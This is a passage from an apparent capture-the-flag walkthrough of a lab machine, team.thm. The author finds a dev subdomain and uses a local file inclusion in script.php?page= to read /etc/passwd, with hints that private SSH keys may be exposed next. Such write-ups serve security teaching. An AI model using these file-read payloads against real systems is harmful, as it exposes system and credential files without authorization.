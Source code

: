 Let's have a look at the content...
```
$ cat New_site.txt 
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
```

Whoohoo!, the text file reveals two important things: 
1. the existence of the dev subdomain, and 
2. the fact that we might be able to find the private key for the user dale in the relevant config file...

With this in mind we'll look at that dev subdomain first.

### Looking at the dev site
First things first, we add another entry in /etc/hosts to dev.team.thm.

Now let's have a look at the dev version of the site:
```
$ curl dev.team.thm
<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
```
we can see a link to script.php?page=teamshare.php
```
$ curl http://dev.team.thm/script.php?page=teamshare.php

<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  Place holder for future team share </body>
</html>
```
it seems that script.php has some code to include the contents of teamshare.php, as the same content can be obtained by browsing teamshare.php directly
```
$ curl http://dev.team.thm/teamshare.php
```
This smells like local file inclusion... let's try something simple
```
http://dev.team.thm/script.php?page=/etc/passwd
```
The simplest case of lfi, it works with absolute paths, how nice. From the output we found some interesting data:
